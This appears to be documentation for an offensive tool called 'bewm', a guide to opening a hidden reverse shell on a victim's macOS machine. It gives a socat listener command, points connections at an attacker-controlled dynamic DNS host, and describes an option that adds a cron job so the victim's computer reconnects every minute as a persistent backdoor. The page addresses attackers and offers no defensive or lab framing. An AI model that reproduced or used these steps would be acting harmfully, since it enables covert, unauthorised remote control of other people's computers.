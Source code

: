 # Creating a reverse shell for macOS

::: warning
This section is VERY work-in-progress, things will change!
:::

## Prerequisites

1. Target computer has `bewm`
2. Attacking computer has [`socat`](https://github.com/andrew-d/static-binaries/tree/master/binaries)
3. Attacking computer has a  static public ip/no-ip
4. Port forwarding set up on your local network to send port 5555 to the attacking computer, ingress and egress

If you're at this stage, you've successfully bewm'd your target. Congratulations! Now, we get to mess with the spoils of our victory.


## Port and IP Setup

In my examples, I reference the port number 5555 and use the website `jabster28.myddns.me` (which allows me to have a static address while still having a dynamic IP), so if you wish to use this yourself, you need to replace the config with your port number and public IP (assuming you have a static one, or get a free domain at [no-ip.com](https://www.noip.com/)). You can do this by running `yarn dev` in the project directory and selecting 'config', then 'hidden shell'

## Local `socat`

Once you've done that, you need to open a terminal on the attacking computer and run

```bash
socat file:`tty`,raw,echo=0 tcp-listen:5555
```

which tells `socat` to expect a full TTY (a proper terminal, with tabbing and job control etc.) and listen for that on port 5555.

::: tip
If you enable adding to cron, you don't need to do this first as the victim will try to connect to the attacking computer every minute.
:::

## Running the executable

Once you've ran the executable on the target machine, it should check for some dependencies, notably `screen` (comes with every macOS installation) and `socat` (like `nc`, but better; automatically installs if it isn't present). After that, you'll be greeted with some options like so:

![List of choices](./shell.png)

::: warning
Right now, the only working option is the Hidden Shell. Sorry!
:::

For now we'll look at the reverse shell, whch allows us to remotely connect to the victim's computer without them having to set up port forwarding or anything like that.

## Opening the Shell

After that, you can press the "Hidden Shell" option, which will greet you with this:

```bash
? Add this to cron (persist after restart)? (y/N)
```

Adding this to the cronjob will make the computer attempt to connect to the attacker every sixty seconds, and this will persist after a restart, sort of like a long-term backdoor (or until someone runs `crontab -l`).

Once you've selected your choices, hit enter and you should be met with a shell prompt on your terminal window! If you don't like the way things look, you can `brew install fish` and use that prompt instead.